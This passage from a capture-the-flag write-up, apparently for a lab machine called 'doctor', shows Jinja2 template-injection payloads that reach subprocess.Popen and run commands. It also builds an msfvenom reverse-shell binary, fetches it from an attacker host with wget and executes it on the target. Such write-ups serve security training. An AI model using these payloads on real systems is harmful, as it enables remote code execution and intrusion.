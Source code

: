 ![web10](./doctor/web10.png)

**NOTE:** If this did not work, trying to abuse a local file read (LFI) or trying to exploire the `config` global object for information disclosure (`SECRET_KEY`) would be the next steps...

It should be possible to get a reference to the `subprocess.Popen` object through SSTI and run commands on the target remotely. The index into the output from the previous command to `subprocess.Popen` is 407. Use this to call the function object and get code execution:

- https://docs.python.org/3/library/subprocess.html#subprocess.Popen

```
{{ ''.__class__.__mro__[1].__subclasses__()[407]('ls',shell=True,stdout=-1).communicate() }}
```

This returns the following:

```html
(b&#39;blog\nblog.sh\n&#39;, None)
```

That looks like code execution! Use it to get a reverse shell:

```bash
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
nc -nvlp 6969
sudo python3 -m http.server 80
```

Then use the following SSTI value for the title of a post:

```
{{ ''.__class__.__mro__[1].__subclasses__()[407]('wget -O /dev/shm/bubba.elf 10.10.14.25/bubba.elf && chmod +x /dev/shm/bubba.elf && /dev/shm/bubba.elf',shell=True,stdout=-1).communicate() }}
```

Then browsing to `/archive` provides the following dedicated shell but not `user.txt`:

![user1](./doctor/user1.png)
